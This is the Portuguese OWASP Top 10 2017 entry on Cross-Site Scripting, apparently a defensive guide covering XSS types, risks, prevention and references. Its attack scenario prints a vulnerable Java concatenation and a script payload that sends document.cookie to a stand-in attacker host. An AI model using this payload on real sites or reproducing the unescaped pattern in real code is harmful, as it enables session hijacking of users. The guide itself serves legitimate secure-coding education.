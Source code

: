 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vetores de Ataque | Vulnerabilidades de Segurança | Impactos |
| -- | -- | -- |
| Nível de Acesso \| Explorabilidade 3 | Prevalência 3 \| Detectabilidade 3 | Técnico 2 \| Negócio |
| Ferramentas automatizadas podem detectar e explorar as três formas de XSS, e existem frameworks de exploits disponíveis gratuitamente. | XSS é o segundo problema mais prevalente no OWASP Top 10, e é encontrado em cerca de dois terços de todas as aplicações. As ferramentas automatizadas podem encontrar alguns problemas XSS automaticamente, particularmente em tecnologias maduras, como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para refletido e DOM XSS, e grave para XSS armazenado, com execução remota de código no navegador da vítima, como roubar credenciais, sessões ou entregar malwares à vítima. |

## A Aplicação Está Vulnerável?

Existem três formas de XSS, geralmente visando os navegadores dos usuários:

* **XSS Refletido**: Sua aplicação ou API inclui entradas de usuário não validadas e não modificadas como parte da saída HTML. Um ataque bem sucedido pode permitir que o atacante execute HTML e JavaScript arbitrários no navegador da vítima. Normalmente, o usuário precisará interagir com algum link malicioso que aponte para uma página controlada pelo atacante, como sites maliciosos de *watering hole*, propagandas ou similares.
* **XSS Armazenado**: Sua aplicação ou API armazena entradas de usuário não sanitizadas que é vista mais tarde por outro usuário ou administrador. O XSS armazenado é frequentemente considerado de risco alto ou crítico.
* **DOM XSS**: Frameworks de JavaScript, aplicativos de uma única página (SPAs) e APIs que incluem dinamicamente dados controláveis pelo atacante para uma página são vulneráveis ao DOM XSS. Idealmente, sua aplicação não enviaria dados controláveis pelo atacante para APIs de JavaScript inseguras.

Ataques XSS típicos incluem o roubo de sessão, a aquisição de contas, *bypass* de MFA (MultiFactor Authentication), a substituição de nós DOM ou o desfiguramento (como os painéis de login de trojan), ataques contra o navegador do usuário, como downloads de software mal-intencionado, *key logging* e outros ataques do lado do cliente.

## Como Prevenir

Prevenir XSS requer a separação de dados não confiáveis do conteúdo ativo do navegador. Isso pode ser alcançado por:

* Use frameworks que automaticamente escapam o XSS por design, como os mais recentes Ruby on Rails, React JS. Aprenda as limitações de proteção XSS de cada framework e cuide adequadamente os casos de uso que não são cobertos.
* Usar frameworks que automaticamente sanitizam o XSS por design, como Ruby on Rails e React JS mais recentes. Aprenda as limitações de proteção XSS de cada framework e cuide adequadamente os casos de uso que não são cobertos.
* Sanitizar por *escape* dados de solicitação HTTP não confiáveis com base no contexto na saída HTML (corpo, atributo, JavaScript, CSS ou URL) irá resolver vulnerabilidades XSS refletidas e armazenadas. A [Folha de Dicas OWASP 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) contém detalhes sobre técnicas de *escape* de dados necessárias.
* Aplicar *encoding* sensível ao contexto ao modificar o documento do navegador no lado do cliente atua contra DOM XSS. Quando isso não puder ser evitado, técnicas de *escaping* sensíveis ao contexto semelhantes podem ser aplicadas às APIs do navegador, conforme descrito na Folha de Dicas OWASP 'DOM Based XSS Prevention'.
* Habilitar um [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) é um controle de mitigação de defesa profunda contra o XSS. É eficaz se não existem outras vulnerabilidades que permitiriam colocar códigos maliciosos através de arquivos locais (por exemplo, sobrescritas de *path traversal* ou bibliotecas vulneráveis em fontes permitidas).

## Exemplo de Cenários de Ataque

**Cenário 1**: A aplicação usa dados não confiáveis na construção do seguinte fragmento HTML sem validação ou *escaping*:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

O atacante modifica o parâmetro 'CC' no navegador para:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Este ataque faz com que a ID da sessão da vítima seja enviada para o site do invasor, permitindo que o invasor seqüestra a sessão atual do usuário.

**Nota**: Atacantes podem usar XSS para derrubar qualquer defesa CSRF automatizada que a aplicação possa empregar.

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externas

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
